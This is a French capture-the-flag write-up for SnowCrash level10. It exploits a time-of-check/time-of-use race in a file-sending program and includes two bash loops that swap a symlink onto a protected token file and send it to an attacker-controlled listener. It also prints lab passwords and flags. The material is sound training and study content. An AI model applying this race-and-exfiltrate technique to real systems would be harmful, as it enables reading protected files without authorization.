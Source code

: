 # Level10 - Time of Check to Time of Update Race
Pour résoudre le level10, on a un fichier level10 et un fichier token. level10 utilise un socket pour transmettre le contenu d'un fichier vers le port 6969 de l'IP indiquée en paramètres.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Pour que l'on puisse exploiter ce programme, on va avoir besoin de créer un programme serveur qui va écouter sur le port 6969 de notre VM de travail, et qui va récupérer la data qu'envoie le client depuis la VM SnowCrash.

```
code ici
```

On essaie d'envoyer un fichier simple avec `level10`, on reçoit bien son contenu sur notre serveur.
Malheureusement, le programme n'utilise pas de setuid, il n'est donc pas exécuté par flag10, et nous n'avons pas les droits sur le fichier token.

```
-- COTÉ CLIENT --

level10@SnowCrash:~$ ./level10 /tmp/toto 192.168.56.106
Connecting to 192.168.56.106:6969 .. Connected!
Sending file .. wrote file!

level10@SnowCrash:~$ ./level10 token 192.168.56.106
You don't have access to token

-- COTÉ SERVEUR --

.*( )*.
toto
```

En regardant les `strings` du programme, on s'aperçoit que ce dernier utilise la fonction `access`. Un tour sur le man et on peut y lire:
> Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

On est donc face à un cas de `Time of Check to Time of Update Race`, c'est à dire qu'entre le moment où l'on va vérifier si on a accès au fichier qu'on tente d'envoyer et le moment où on va l'ouvrir pour récupérer son contenu, il faut pourvoir tromper le programme pour lui faire ouvrir notre fichier `token`.

#### Pour cela, on crée deux scripts:

Le premier va venir créer un lien symbolique vers un fichier auquel on a accès, puis va supprimer ce lien et le remplacer par un lien vers notre token. Les deux liens auront le même nom et le même path, ce qui fera croire au programme qu'il ouvre bien le bon fichier.

```
#!/bin/bash
while :
do
        rm -f /tmp/faketoken
        ln /home/user/level10/level10 /tmp/faketoken
        rm -f /tmp/faketoken
        ln /home/user/level10/token /tmp/faketoken
done
```

Le deuxième va simplement envoyer en boucle notre lien au programme `level10`
```
#!/bin/bash
while :
do
/home/user/level10/level10 /tmp/faketoken 192.168.56.106
done
```

On lance notre serveur, et on exécute les deux scripts. Au bout de quelques secondes, on reçoit le contenu de `token` sur notre serveur.

```
retour ici
```

On se connecte sur le compte flag10 et on obtient notre token:

```
level10@SnowCrash:/tmp$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

On a notre token: `feulo4b72j7edeahuete3no7c`

